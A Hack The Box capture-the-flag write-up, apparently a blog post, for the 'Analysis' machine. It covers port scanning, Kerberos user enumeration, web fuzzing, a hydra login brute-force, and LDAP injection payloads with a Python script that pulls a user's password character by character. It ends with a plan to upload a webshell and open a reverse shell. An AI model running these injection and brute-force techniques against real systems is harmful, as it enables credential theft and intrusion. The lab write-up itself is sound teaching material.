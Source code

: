 ```yaml
---
title: HTB - Analysis
date: 2024-01-24
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, analysis, ldap, ffuf, dir-busting, subdomain, virtual-host]
img_path: /assets/htb/fullpwn/analysis/
published: false
hidden: false
image:
    path: machine_info.png
---
```


> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## Information gathering

Nmap port-scan:

```bash
# port-scanning
$ sudo nmap -sS -A -Pn --min-rate 10000 -p- 10.10.11.250

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-01-20 21:05:06Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn?
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: analysis.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3306/tcp  open  mysql         MySQL (unauthorized)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
9389/tcp  open  adws?
33060/tcp open  mysqlx?
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
49670/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0

<SNIP>
```

Add domain to local DNS file:

```bash
$ cat /etc/hosts | grep ana
10.10.11.250  analysis.htb
```

## Kerberos enumeration

Enumerating **domain users** via Kerberos:

```bash
$ kerbrute_linux_amd64 userenum --dc 10.10.11.250 -d analysis.htb /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt

2024/01/21 09:23:03 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/21 09:24:53 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/21 09:28:54 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/21 09:29:11 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/21 09:30:08 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/21 09:34:08 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/21 09:38:01 >  [+] VALID USERNAME:       JDoe@analysis.htb
2024/01/21 09:38:16 >  [+] VALID USERNAME:       AJohnson@analysis.htb
2024/01/21 09:54:43 >  [+] VALID USERNAME:       badam@analysis.htb
```

Create a `mailList` and a `userList` for future use:

```bash
$ cat kerbList
2024/01/21 09:23:03 >  [+] VALID USERNAME:       jdoe@analysis.htb
2024/01/21 09:24:53 >  [+] VALID USERNAME:       ajohnson@analysis.htb
2024/01/21 09:28:54 >  [+] VALID USERNAME:       cwilliams@analysis.htb
2024/01/21 09:29:11 >  [+] VALID USERNAME:       wsmith@analysis.htb
2024/01/21 09:30:08 >  [+] VALID USERNAME:       jangel@analysis.htb
2024/01/21 09:34:08 >  [+] VALID USERNAME:       technician@analysis.htb
2024/01/21 09:38:01 >  [+] VALID USERNAME:       JDoe@analysis.htb
2024/01/21 09:38:16 >  [+] VALID USERNAME:       AJohnson@analysis.htb
2024/01/21 09:54:43 >  [+] VALID USERNAME:       badam@analysis.htb

# create a mailList
$ cat userList | awk '{print $(NF)}' > mailList
$ cat mailList
jdoe@analysis.htb
ajohnson@analysis.htb
cwilliams@analysis.htb
wsmith@analysis.htb
jangel@analysis.htb
technician@analysis.htb
JDoe@analysis.htb
AJohnson@analysis.htb
badam@analysis.htb

# create a userList
$ cat kerbList | awk '{print $(NF)}' | cut -d "@" -f 1 > userList
$ cat userList
jdoe
ajohnson
cwilliams
wsmith
jangel
technician
JDoe
AJohnson
badam
```

## Web server enumeration

### Domain enumeration: `analysis.htb`

**Technologies used**: 

```bash
$ whatweb analysis.htb
http://analysis.htb [200 OK] Country[RESERVED][ZZ], Email[mail@demolink.org,privacy@demolink.org], HTTPServer[Microsoft-IIS/10.0], IP[10.129.198.245], JQuery, Microsoft-IIS[10.0], Script[text/javascript]
```

- `demolink.org` domain?

**Dir-busting**:

```bash
$ ffuf -u http://analysis.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -ac -e .aspx,.html,.php,.txt,.jsp

________________________________________________

 :: Method           : GET
 :: URL              : http://analysis.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .aspx .html .php .txt .jsp
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

images                  [Status: 301, Size: 162, Words: 9, Lines: 2, Duration: 32ms]
index.html              [Status: 200, Size: 17830, Words: 1418, Lines: 287, Duration: 36ms]
css                     [Status: 301, Size: 159, Words: 9, Lines: 2, Duration: 30ms]
js                      [Status: 301, Size: 158, Words: 9, Lines: 2, Duration: 28ms]
bat                     [Status: 301, Size: 159, Words: 9, Lines: 2, Duration: 28ms]
```

**Vhost** and **Subdomain enumeration**:

```bash
$ ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/namelist.txt -u http://10.10.11.250 -H "HOST: FUZZ.analysis.htb"

<SNIP>

internal                [Status: 403, Size: 1268, Words: 74, Lines: 30, Duration: 32ms]
```

We know that our target has a DNS server, so we could also use it as our resolver for subdomain enumeration:

```bash
$ gobuster dns -d analysis.htb -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -r 10.10.11.250:53
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Domain:     analysis.htb
[+] Threads:    10
[+] Resolver:   10.10.11.250:53
[+] Timeout:    1s
[+] Wordlist:   /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt
===============================================================
Starting gobuster in DNS enumeration mode
===============================================================
Found: www.analysis.htb
Found: internal.analysis.htb
Found: gc._msdcs.analysis.htb
Found: domaindnszones.analysis.htb
Found: forestdnszones.analysis.htb
```

#### Results

| Domain  | analysis.htb                                                    |
|----------------------|-----------------------------------------------------|
|          Directories | images, index.html, css, js, bat                    |
|           Subdomains | internal, gc._msdcs, domaindnszones, forestdnszones |

Add `internal` subdomain to local DNS file:

```bash
$ cat /etc/hosts | grep ana
10.10.11.250  analysis.htb internal.analysis.htb
```

### Subdomain enumeration: `internal.analysis.htb`

#### Dir-busting subdomain

```bash
# enumerating directories on the internal subdomain
$ ffuf -u http://internal.analysis.htb/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -e .aspx,.html,.php,.txt,.jsp -c -ac

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
 :: Extensions       : .aspx .html .php .txt .jsp
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

<SNIP>

users                   [Status: 301, Size: 170, Words: 9, Lines: 2, Duration: 33ms]
dashboard               [Status: 301, Size: 174, Words: 9, Lines: 2, Duration: 33ms]
employees               [Status: 301, Size: 174, Words: 9, Lines: 2, Duration: 33ms]
```

#### Dir-busting subdirectories

**Dashboard** directory:

```bash
# enumerating directories for /dashboard
$ ffuf -u http://internal.analysis.htb/dashboard/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .aspx,.html,.php,.txt,.jsp -c -ac

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/dashboard/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .aspx .html .php .txt .jsp
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 38, Words: 3, Lines: 5, Duration: 79ms]
img                     [Status: 301, Size: 178, Words: 9, Lines: 2, Duration: 33ms]
uploads                 [Status: 301, Size: 182, Words: 9, Lines: 2, Duration: 38ms]
upload.php              [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 306ms]
details.php             [Status: 200, Size: 35, Words: 3, Lines: 5, Duration: 81ms]
css                     [Status: 301, Size: 178, Words: 9, Lines: 2, Duration: 38ms]
license.txt             [Status: 200, Size: 1422, Words: 253, Lines: 35, Duration: 39ms]
lib                     [Status: 301, Size: 178, Words: 9, Lines: 2, Duration: 30ms]
form.php                [Status: 200, Size: 35, Words: 3, Lines: 5, Duration: 33ms]
js                      [Status: 301, Size: 177, Words: 9, Lines: 2, Duration: 33ms]
logout.php              [Status: 302, Size: 3, Words: 1, Lines: 1, Duration: 38ms]
404.html                [Status: 200, Size: 13143, Words: 4690, Lines: 237, Duration: 37ms]
tickets.php             [Status: 200, Size: 35, Words: 3, Lines: 5, Duration: 47ms]
emergency.php           [Status: 200, Size: 35, Words: 3, Lines: 5, Duration: 34ms]
```

**Employees** directory:

```bash
# enumerating directories for /employees
$ ffuf -u http://internal.analysis.htb/employees/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .aspx,.html,.php,.txt,.jsp -c -ac

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/employees/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .aspx .html .php .txt .jsp
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login.php               [Status: 200, Size: 1085, Words: 413, Lines: 30, Duration: 45ms]
```

**Users** directory:

```bash
# enumerating directories for /users
$ ffuf -u http://internal.analysis.htb/users/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt -e .aspx,.html,.php,.txt,.jsp -c -ac

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions       : .aspx .html .php .txt .jsp
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

list.php                [Status: 200, Size: 17, Words: 2, Lines: 1, Duration: 80ms]
```

#### Results

| Subdomain   | internal.analysis.htb       |
|-------------|-----------------------------|
| Directories | users, dashboard, employees |

| Subdomain directory | Subdirectories                                                                                                                          |
|:-------------------:|-----------------------------------------------------------------------------------------------------------------------------------------|
|           dashboard | index.php, img, uploads, upload.php, details.php, css, license.txt, lib, form.php, js, logout.php, 404.html, tickets.php, emergency.php |
|           employees | login.php                                                                                                                               |
|               users | list.php                                                                                                                                |

### Findings recap and next steps

1. `internal.analysis.htb` seems the most crucial subdomain to explore.
2. `users/list.php`
    - Do a parameter-scan.
3. `employees` has the login portal and we already have a user list
    - brute-force portal?

### Parameter enumeration: `internal.analysis.htb/users/list.php`

```bash
# enumerating users/list.php parameters
$ ffuf -u http://internal.analysis.htb/users/list.php?FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt -ac -c

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

name                    [Status: 200, Size: 406, Words: 11, Lines: 1, Duration: 37ms]
```

We could try going through a standard username list as well as our `userList` to see if anything interesting comes back for the `name` parameter, i.e., potential valid usernames:

```bash
# enumerating name parameter with standard wordlist
$ ffuf -u http://internal.analysis.htb/users/list.php?name=FUZZ -w /usr/share/wordlists/seclists/Usernames/Names/names.txt -ac -c
# nothing back

# enumerating name parameter with custom wordlist
$ ffuf -u http://internal.analysis.htb/users/list.php?name=FUZZ -w userList -ac -c

________________________________________________
 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=FUZZ
 :: Wordlist         : FUZZ: /home/kali/htb/fullpwn/analysis/userList
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

jangel                  [Status: 200, Size: 416, Words: 11, Lines: 1, Duration: 38ms]
technician              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 38ms]
badam                   [Status: 200, Size: 412, Words: 11, Lines: 1, Duration: 43ms]
```

It seems that we have 3 users that we could maybe use to login to the portal. We can put those usernames in a new list and try brute-forcing their passwords. The login portal looks let us know that employees use their email to login and not their username:

![](employees_loginPHP.png){: .normal width="85%"}


```bash
# creating a new email list
$ cat mailList | grep "tech\|badam\|jangel" > mailList_reduced
$ cat mailList_reduced
jangel@analysis.htb
technician@analysis.htb
badam@analysis.htb
```

We can now trying brute-forcing `/login.php`. We can find what is the appropriate string to put on the `hydra`'s `F` parameter by using some random credentials, e.g. `test:test`, to login:

![](test_login_error.png){: .normal width="85%"}

The text we should put there is not the "*Wrong Data*" string, but what is hidden in the source code as the **class label**, i.e., "*text-danger*":

![](text-danger.png){: .normal width="65%"}

```bash
# brute-forcing the login portal
$ hydra -L mailList_reduced -P /usr/share/wordlists/rockyou.txt internal.analysis.htb http-post-form "/employees/login.php:log=^USER^&pwd=^PASS^:F=text-danger" -t 30
# nothing back
```

## Initial foothold

### What is LDAP

According to [Varonis](https://www.varonis.com/blog/the-difference-between-active-directory-and-ldap#:~:text=An%20LDAP%20query%20is%20a,%3DYourDomain%2CDC%3Dcom): 

_**LDAP (Lightweight Directory Access Protocol)** is an open and cross platform protocol used for directory services authentication and provides the communication language that applications use to communicate with other directory services servers._ 

> **Directory services** store the users, passwords, and computer accounts, and share that information with other entities on the network.

In layman's terms: **LDAP is a way of speaking to Active Directory (AD)** and it is used to store information about users, hosts, and many other objects.

The relationship between AD and LDAP is much like the relationship between Apache and HTTP:

- HTTP is a web protocol.
- Apache is a web server that uses the HTTP protocol.
- LDAP is a directory services protocol.
- AD is a directory server that uses the LDAP protocol.

### What is an LDAP query

An **LDAP query is a command that asks a directory service for some information**. For instance, if you’d like to see which groups a particular user is a part of, you’d submit a query that looks like this:

`(&(objectClass=user)(sAMAccountName=yourUserName)   (memberof=CN=YourGroup,OU=Users,DC=YourDomain,DC=com))`

> IppSec's video: [LDAP query structure](https://youtu.be/51JQg202csw?t=1007).

### What is an LDAP Injection

According to the [OWASP Web Security Testing Guide](https://github.com/OWASP/wstg/blob/master/document/4-Web_Application_Security_Testing/07-Input_Validation_Testing/06-Testing_for_LDAP_Injection.md):

_[**LDAP injection**](https://wiki.owasp.org/index.php/LDAP_injection) is a server-side attack, which could allow sensitive information about users and hosts represented in an LDAP structure to be disclosed, modified, or inserted. This is done by **manipulating input parameters afterwards passed to internal search**, add, and modify functions. A web application could use LDAP in order to let users authenticate or search other users' information inside a corporate structure. **The goal of LDAP injection attacks is to inject LDAP search filters metacharacters in a query which will be executed by the application**._

In layman's term: **LDAP Injection is a [syntax-weird](https://en.wikipedia.org/wiki/Polish_notation) SQLi**. 

> Useful resources: [PayloadsAllTheThings: LDAP Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection), [Common LDAP Attribute Names](https://ftpdocs.broadcom.com/cadocs/0/CA%20Process%20Automation%2004%202%2002-ENU/Bookshelf_Files/HTML/Content%20Designer%20Reference/1187917.html).


Since we already know that there is a `name` parameter, we could start fuzzing for the next one:

```bash
$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=t*)(FUZZ=*' -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -ac -c

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=t*)(FUZZ=*
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

accountExpires          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 507ms]
badPwdCount             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
badPasswordTime         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
cn                      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 57ms]
codePage                [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 54ms]
countryCode             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
createTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 57ms]
description             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 55ms]
distinguishedName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 48ms]
givenName               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 50ms]
instanceType            [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 53ms]
lastLogoff              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 55ms]
lastLogon               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 59ms]
logonCount              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 54ms]
modifyTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 49ms]
name                    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 49ms]
objectClass             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 40ms]
nTSecurityDescriptor    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 57ms]
objectCategory          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 54ms]
objectGUID              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 51ms]
objectSid               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 50ms]
pwdLastSet              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 57ms]
replPropertyMetaData    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 59ms]
sAMAccountName          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
sAMAccountType          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
userPrincipalName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 120ms]
userAccountControl      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 129ms]
```

We know the the value of the `objectClass` attribute should be `user` since `technician` is a user. So we can try set this attribute, and continue our fuzzing journey:

> [Active Directory User Object: An Introduction](https://www.windows-active-directory.com/active-directory-user-objects-management.html).

```bash
$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(FUZZ=*)' -w /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt -ac -c

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(FUZZ=*)
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/LDAP-active-directory-attributes.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

accountExpires          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 115ms]
badPwdCount             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 78ms]
badPasswordTime         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 90ms]
countryCode             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 33ms]
cn                      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 95ms]
codePage                [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 104ms]
createTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 107ms]
description             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 59ms]
distinguishedName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 67ms]
givenName               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 130ms]
instanceType            [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 108ms]
lastLogoff              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 85ms]
lastLogon               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 82ms]
logonCount              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]
modifyTimeStamp         [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 80ms]
name                    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 102ms]
nTSecurityDescriptor    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 49ms]
objectGUID              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 41ms]
objectCategory          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 90ms]
objectSid               [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 78ms]
objectClass             [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 82ms]
pwdLastSet              [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 75ms]
replPropertyMetaData    [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 67ms]
sAMAccountType          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
sAMAccountName          [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 60ms]
userAccountControl      [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 44ms]
userPrincipalName       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 65ms]
```

There seem to be a lot of attributes to test. We can brute-forcing one-by-one and see what we get. Since it is common for the `description` field to hold interesting information we can start with that. 

We can perform the LDAP Injection manually by using a tool like `fuff` to fuzz it. As shown below, we get the first character (`9`) as a response, which we can then add to the same command and get the second character (`7`), and so on:

```bash
# performing LDAP injection manually
$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

________________________________________________

 :: Method           : GET
 :: URL              : http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=FUZZ*)
 :: Wordlist         : FUZZ: /usr/share/seclists/Fuzzing/alphanum-case-extra.txt
 :: Follow redirects : false
 :: Calibration      : true
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 8
________________________________________________

9                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 47ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=9FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

7                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

N                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 40ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

T                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

t                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

l                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtlFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

                        [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]
```

While fuzzing using the string `97NTtlFUZZ*` it outputs nothing. That means either that the password is what we already have, i.e, `97NTtl`, or there is a special character that cannot be interpreterted as a "simple" character.

For instance, [asterisk (`*`)](https://lgfang.github.io/computer/2021/12/15/ldap-search-wildcard) is used as a wildcard almost everywhere, such as regex, bash, and **LDAP search filters**, among others. Knowing that, we can try placing such characters manually, until we get something back. In this case, the `*` char seems to do the trick:

```bash
$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

4                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

Q                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

P                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QPFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

9                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QP9FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

6                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QP96FUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

B                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QP96BFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

v                       [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]

$ ffuf -u 'http://internal.analysis.htb/users/list.php?name=technician)(%26(objectClass=user)(description=97NTtl*4QP96BvFUZZ*)' -w /usr/share/seclists/Fuzzing/alphanum-case-extra.txt -ac -c -fs 8

                        [Status: 200, Size: 418, Words: 11, Lines: 1, Duration: 70ms]
```

The following [Python script](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/htb/fullpwn/analysis/brute-force.py) is a more efficient way to brute-force `technician`'s password:

```python
import argparse
import requests
import urllib.parse

def main():
    charset_path = "/usr/share/wordlists/seclists/Fuzzing/alphanum-case-extra.txt"
    base_url = "http://internal.analysis.htb/users/list.php?name=*)(%26(objectClass=user)(description={found_char}{FUZZ}*)"
    found_chars = ""
    skip_count = 6
    add_star = True
    with open(charset_path, 'r') as file:
        for char in file:
            char = char.strip()
            # URL encode the character
            char_encoded = urllib.parse.quote(char)
            # Check if '*' is found and skip the first 6 '*' characters
            if '*' in char and skip_count > 0:
                skip_count -= 1
                continue
            # Add '*' after encountering it for the first time
            if '*' in char and add_star:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                add_star = False
                continue
            modified_url = base_url.replace("{FUZZ}", char_encoded).replace("{found_char}", found_chars)
            response = requests.get(modified_url)
            if "technician" in response.text and response.status_code == 200:
                found_chars += char
                print(f"[+] Found Password: {found_chars}")
                file.seek(0, 0)
if __name__ == "__main__":
    main()
```

If we run the above script:

```bash
$ python3 brute_force.py
[+] Found Password: 9
[+] Found Password: 97
[+] Found Password: 97N
[+] Found Password: 97NT
[+] Found Password: 97NTt
[+] Found Password: 97NTtl
[+] Found Password: 97NTtl*
[+] Found Password: 97NTtl*4
[+] Found Password: 97NTtl*4Q
[+] Found Password: 97NTtl*4QP
[+] Found Password: 97NTtl*4QP9
[+] Found Password: 97NTtl*4QP96
[+] Found Password: 97NTtl*4QP96B
[+] Found Password: 97NTtl*4QP96Bv
[+] Found Password: 97NTtl*4QP96Bv
[+] Found Password: 97NTtl*4QP96Bv
```

We now have some credentials: `technician:97NTtl*4QP96Bv` which we can use to log into the portal. There is an upload functionality via the "*SOC Report*" tab:

![](revshell_upload.png)

We can try to upload a webshell and visit the appropriate directory (which should be the `dashboard/uploads/<revshell>` that we found earlier) to test its functionality. If it works, we can then open a listener and pass reveshell command through it:

```bash
# webshell's contents
$ cat revshell.php
